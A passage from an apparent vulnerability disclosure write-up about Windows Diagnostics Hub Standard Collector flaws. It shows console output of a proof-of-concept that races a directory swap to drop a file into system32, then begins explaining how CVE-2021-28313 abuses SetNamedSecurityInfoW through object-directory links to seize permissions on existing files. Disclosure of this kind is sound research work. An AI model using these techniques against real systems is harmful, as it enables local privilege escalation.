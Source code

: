```
Got the collector service reference
Scratch path: c:\111\workdir\diaghub-file-write-poc\Etw
Creating a new session with guid: 3902e32d-dd66-4419-8a7c-ff37778efd7f
Session created
Loading agent: e485d7a9-c21b-4903-892e-303c10906f6e -> DiagnosticsHub.StandardCollector.Runtime.dll
Session 3902E32D-DD66-4419-8A7C-FF37778EFD7F: {3902e32d-dd66-4419-8a7c-ff37778efd7f}
  Running
Monitoring report directory to show up: c:\111\workdir\diaghub-file-write-poc\etw\Report.3902E32D-DD66-4419-8A7C-FF37778EFD7F
Executing the report generation process
Exeucuting command: VSDiagnostics.exe stop 3902E32D-DD66-4419-8A7C-FF37778EFD7F /output:-

Microsoft (R) VS Standard Collector

Creating instance of StandardCollector 42cbfaa7-a4a7-47bb-b422-bd10e9d02700 (Windows Native)
report dir has shown up, c:\111\workdir\diaghub-file-write-poc\Etw replaced to c:\111\workdir\diaghub-file-write-poc\ETW
Stop returned with: c:\111\workdir\diaghub-file-write-poc\Etw\Report.3902E32D-DD66-4419-8A7C-FF37778EFD7F
Session 3902E32D-DD66-4419-8A7C-FF37778EFD7F: {3902e32d-dd66-4419-8a7c-ff37778efd7f}
  Stopped
Creating instance of StandardCollector 42cbfaa7-a4a7-47bb-b422-bd10e9d02700 (Windows Native)
Done!

C:\111\bin>type c:\Windows\system32\dropped.dll
<?xml version="1.0" encoding="UTF-8"?>
<Package xmlns="urn:diagnosticshub-package-metadata-2-1">
  <Tools />
  <Content />
  <Metadata>
    <Item Key="_BuildVersion">10.0.10011.16384</Item>
  </Metadata>
</Package>
```


Note: since this attack relies on a race condition, you might need to execute the tool multiple times. 


## Vulnerability #3 (CVE-2021-28313): taking over file permissions of existing files

While researching this flaw, I found it was possible to abuse the call to `SetNamedSecurityInfoW` (via `SecuredDirectory::ExposeDirectory`) in a reliable way.
If you call `SetNamedSecurityInfoW` with `pObjectName` specifying a directory junction and request it to propagate inherited ACEs, it won't iterate over the
sub objects of the container (where the junction points to). But, if you call that function with a link hosted in the object directory, then the permissions
of the target of the link will be adjusted as requsted.

The stucture would look something like this:
